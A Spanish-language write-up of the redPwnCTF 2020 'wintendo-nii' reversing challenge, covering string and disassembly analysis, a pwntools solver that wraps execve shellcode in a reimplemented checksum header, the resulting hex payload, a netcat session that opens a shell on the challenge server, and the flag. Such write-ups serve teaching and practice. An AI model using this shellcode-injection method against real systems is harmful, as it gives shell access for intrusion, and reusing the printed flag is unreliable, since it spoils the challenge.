 # wintendo-nii-reversing redPwnCTF writeup

Reto de la categoria de reversing de redPwnCTF

## File recognition
Observamos que es un ELF 64-bit, que  seguramente es el que se ejecuta en el servicio __2020.redpwnc.tf:31215__

Al observar los stirngs vemos que hay 5 que nos llaman la atencion, al parecer son nombree de juegos

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# file nii
nii: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8def7e412da3017e4dd7fcf2c2d6ad0ac37ba8e4, stripped

root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# strings nii
4%d @
%b @
NIIv0.1:H9
TwltPrncH9F
MaroCartH9F
Fitnes++H9F
AmnlXingH9F
%b @
%b @
4%d @
%b @
int main(){puts(flag);}
.shstrtab
.note.gnu.build-id
.text
.data
```

Al correr el programa vemos que nos pide un input y nos muestra uno simbolos chinos que traducidos dicen "En 2020, Wentian Software Company-Todos los derechos reservados.
Por favor inserte el disco del juego", intenamos con un nombre de los juegos que encontramos en los strings y nada sucede.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# ./nii
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
MaroCart
```

## Analysis

Procedemos a desensamblar el binario en IDa 7.0, al ser un binario stripped no tiene simbolos por lo que nos es un poco mas dificil encontrar el main, sin embargo encontramos el entry_point del programa y empezaremos por ahi.

Vemos las lineas donde el programa recibe el input y lo manda a una funcion que despues de analizar el codigo es una validacion de que sean numeros hexadecimales de los strings que vimos previamente.

Por lo tanto vemos que el input es una codificacion hexadecimal de la version de la "consola" __NIIv0.1:__ concatenado con el nombre de algun juego, lo que quedaria asi __NIIv0.1:MaroCart__

Vemos aqui los pedazos de codigo.

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_1.JPG)

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_2.JPG)


Despues de pasar esas validaciones hace una operacion mas y posteriormente procede a ejecutar parte del input que va despues del string de la consola y el juego, lo que nos da una idea que a lo mejor el tenemos que pasar un shellcode.

Analizando mas a fondo vemos que es un header del mismo codifo que le estamos pasando, en caso de no ser este la ejecucion temrina.

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_3.JPG)

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_.JPG)

## Solution

Despues de analizar todo el coodigo vamos a hacer el el solver para la solucion de este problema, vamos a codificar la operacion del header para que nos de el header del shellcode que enviaremos que en este caso nos regresara una shell

```python
#!/usr/bin/python3
#Author: n0tM4l4f4m4
#Title: solver.py

import struct
import codecs
import binascii
from pwn import *

context.arch = "x86_64"
context.endian  = "little"

str_v = 'NIIv0.1:'
game_1 = 'TwltPrnc'
game_2 = 'MaroCart'
game_3 = 'Fitnes++'
game_4 = 'AmnlXing'

shell_ = asm(shellcraft.sh())

checksum = 0

for val in shell_:
    # print(val)
    v7 = val
    # v7 = ord(val)
    for val2 in range(7, -1, -1):
        if checksum >= 0x80000000:
            v10  = 0x80000011
            pass
        else:
            v10 = 0
            pass
        pass
        v12 = 2 * checksum
        v12 = (v12 & 0xffffff00) | (((v7 >> val2) & 1 ^ v12) & 0xff)
        checksum = v10 ^ v12
    pass

header = struct.pack("<L", checksum)

# print(str_v, game_4, header, shell_)
print(binascii.hexlify(bytes(str_v, 'utf-8') + bytes(game_4, 'utf-8') + header + shell_).upper())
```
Ejecutamos el script para que nos de el payload de los que vamos a meter al binario

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# python3 solver.py
b'4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05'
```
Nos vamos a conectar al servico __2020.redpwnc.tf:31215__ por netcat y paseremos el payload que el script nos dio.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii

```

Vemos que efectivamente nos devolvio una shell y al usar el comando __ls__ nos devuelve ls lista de archivos donde viene la flag.text

Usaremos el comando __cat__ para leer la flag

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii
cat flag.txt
It's dangerous to go alone. Take this!
flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}
```

## Flag
**flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}**

